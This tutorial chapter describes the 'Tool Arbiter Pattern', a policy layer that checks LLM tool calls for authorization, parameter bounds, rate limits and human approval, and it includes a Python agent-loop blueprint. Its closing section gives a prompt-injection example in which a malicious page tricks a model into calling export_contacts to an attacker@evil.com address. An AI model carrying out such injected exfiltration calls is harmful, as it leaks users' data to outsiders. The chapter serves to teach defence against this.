


# Chapter 10 - Part 3: The Tool Arbiter Pattern

> Chapter 10: Tool-Using LLMs: Function Calling and Structured Outputs

The **Tool Arbiter Pattern** is an architectural security and governance pattern where a deterministic software layer (or dedicated secondary policy component) sits between the LLM's requested tool call and actual execution to validate, authorize, and govern every action before it runs.

Because an LLM can hallucinate arguments or be hijacked via prompt injection, you cannot treat the model's tool_calls output as a trusted command. The Tool Arbiter treats every LLM tool request as an **untrusted proposal** that must pass deterministic policy checks before hitting real infrastructure.





Instead of blindly mapping function_name to a local code execution, your backend routes the LLM's JSON output through the Arbiter first.

## Core Responsibilities of a Tool Arbiter

1. **Identity & Authorization Enforcement (RBAC / ABAC):** The Arbiter binds execution to the authenticated user's session—never to an ID the LLM extracted from the chat. If the model asks to call get_invoice(user_id="456") while the logged-in user is "123", the Arbiter blocks it or overrides user_id with the verified session token.
2. **Parameter & Schema Validation:** Beyond basic JSON types, the Arbiter enforces business invariants (e.g., refund_amount <= 5000, target_email matches the user's domain, or SQL queries contain only SELECT statements).
3. **Risk Tiering & Human-in-the-Loop (HITL) Gating:** The Arbiter classifies tools by blast radius:
  - Read-Only / Low Risk (e.g., search_docs): Auto-approved immediately.
  - State-Mutating / High Risk (e.g., delete_database, send_external_email, transfer_funds): Pauses execution and queues an explicit confirmation prompt for a human user or admin.
4. **Rate Limiting & Loop Circuit-Breaking:** Prevents runaway agent loops or denial-of-wallet attacks by capping how many times a tool can be called per turn or session (e.g., max 5 API calls per user message).
5. **Graceful Rejection Feedback:** When the Arbiter blocks a call, it returns a structured error message back into the LLM's context window as a role: "tool" response (e.g., "Error: Permission denied. Refunds over ₹5,000 require manager approval."). This allows the model to gracefully explain the restriction to the user rather than crashing the application.

## The Pattern

In the context of LLM engineering and agentic systems, **"The Pattern"** (often referred to as the **ReAct / Tool-Use Loop** or **Agentic Orchestration Loop**) is the standard software architecture that turns a stateless text generator into a functional application that can use tools.

Every modern AI agent framework—from raw API scripts to LangGraph and Anthropic's tool loops—is built on this exact while loop.





## The 4 Stages of the Pattern

1. **Context Assembly & Inference:** Your backend sends the entire conversation history (messages) plus the JSON Schemas of available tools to the LLM API.
2. **Branching on finish_reason:** Your code inspects why the model stopped generating tokens:
  - **"stop":** The model has enough information to answer directly. The loop terminates, and the assistant's text is displayed to the user.
  - **"tool_calls":** The model paused text generation and emitted one or more structured JSON function requests. The loop continues.
3. **Arbiter Validation & Execution:** Your backend intercepts each requested tool call, passes it through the **Tool Arbiter** (checking permissions, rate limits, and parameter bounds), and runs the actual local function or external API.
4. **State Mutation & Re-entry:** Your backend appends two items to the messages array—the assistant's tool_calls message and the resulting role: "tool" output—and immediately loops back to Step 1 so the model can process the new data and decide whether to call another tool or finish.

## Minimal Code Blueprint (Python)

```python
def run_agent(user_input, system_prompt, tool_arbiter, current_user_session, max_steps=10):
    messages = [
        {"role": "system", "content": system_prompt},
        {"role": "user", "content": user_input},
    ]
    for step in range(max_steps):                      # bounded, not while True
        response = client.chat.completions.create(
            model="gpt-4o", messages=messages, tools=TOOL_SCHEMAS
        )
        msg = response.choices[0].message
        messages.append(msg)

        if not msg.tool_calls:                          # exit condition
            return msg.content

        for call in msg.tool_calls:
            print(f"[tool] {call.function.name}({call.function.arguments})")  # ← visible output
            try:
                result = tool_arbiter.validate_and_run(
                    name=call.function.name,
                    args=call.function.arguments,
                    session=current_user_session,
                )
            except Exception as e:
                result = {"error": str(e)}
            messages.append({
                "role": "tool",
                "tool_call_id": call.id,
                "content": json.dumps(result),          # JSON, not str()
            })

    return "Max steps reached without a final answer."

# Example invocation:
# print(run_agent("Book a meeting with Priya Tuesday 2pm", "...", arbiter, session))
```

**Output**

```text
Your meeting is scheduled for Tuesday at 2pm.
```

## Why This Pattern Matters

- **Neutralizes Prompt Injection:** Even if a malicious webpage or email tricks the LLM into calling export_contacts(to="attacker@evil.com"), the Arbiter blocks the unauthorized destination domain at the deterministic code layer.
- **Decouples Security from Prompts:** Engineers can audit and test access rules in standard unit tests rather than hoping prompt wording holds up under adversarial inputs.
